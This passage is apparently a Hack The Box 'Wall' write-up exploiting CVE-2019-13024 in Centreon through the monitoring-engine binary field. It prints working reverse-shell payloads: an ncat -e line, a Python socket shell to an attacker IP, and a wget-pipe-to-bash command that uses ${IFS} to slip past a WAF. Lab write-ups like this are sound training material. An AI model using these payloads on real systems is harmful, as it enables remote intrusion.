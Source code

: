 <p>Excellent, we now have the proper credentials <code>admin/password1</code>. CVE-2019-13024 indicates the vulnerability is in <code>/main.get.php?p=60901</code>. Setting up a listener and executing the exploit with payload enabled unfortunately did not work. Looking further at the exploit code payload to attempt and understand more what is happening.</p>

{% highlight shell %}
# this value contains the payload , you can change it as you want
"nagios_bin": "ncat -e /bin/bash {0} {1} #".format(ip, port),
{% endhighlight %}

<p>I played around with different payloads and I was able to deduce that there was a <code>WAF</code> in place and interfering with the payload. With a little bit of trial and error the main thing I could figure out was that <code>spaces</code> were culprit. This was determined by modifying the exploit code to print out the result code of the <code>POST</code> request to <code>/main.get.php?p=60901</code> - a 403 return would indicate the payload was being detected by the <code>WAF</code>.</p>

<p align="center">
<img src="{{ '/assets/htb-wall/user-exploit2.PNG' | relative_url }}">
</p>

<p>Unfortunately, I was not able to get the exploit working through the script. I decided to tackle the exploit manually through the webpage. Logging in as <code>admin/password1</code> then navigating to <code>/main.get.php?p=60901</code> we can that the nagios_bin portion of the exploit translates to the "Monitoring Engine Binary". I tested a few different payloads without success however finally I was able to get a call to my machine to download and execute a payload.<p>

{% highlight shell %}
root@kali:/var/www/html# cat pyrev.txt
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.116",1337));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
{% endhighlight %}

<p>With the following payload I was finally able to get a reverse shell established.</p>

{% highlight shell %}
wget${IFS}-qO-${IFS}http://10.10.14.116/pyrev.txt${IFS}|${IFS}bash;
{% endhighlight %}

<p align="center">
<img src="{{ '/assets/htb-wall/user-shell.PNG' | relative_url }}">
</p>

<p align="center">
<img src="{{ '/assets/htb-wall/user-exploit-burp.PNG' | relative_url }}">
</p>

{% highlight shell %}
root@kali:~/Desktop/HTB# nc -lvnp 1337
Listening on [0.0.0.0] (family 2, port 1337)

Connection from 10.10.10.157 42836 received!
/bin/sh: 0: can't access tty; job control turned off
$ id
uid=33(www-data) gid=33(www-data) groups=33(www-data),6000(centreon)
$ pwd
/usr/local/centreon/www
{% endhighlight %}
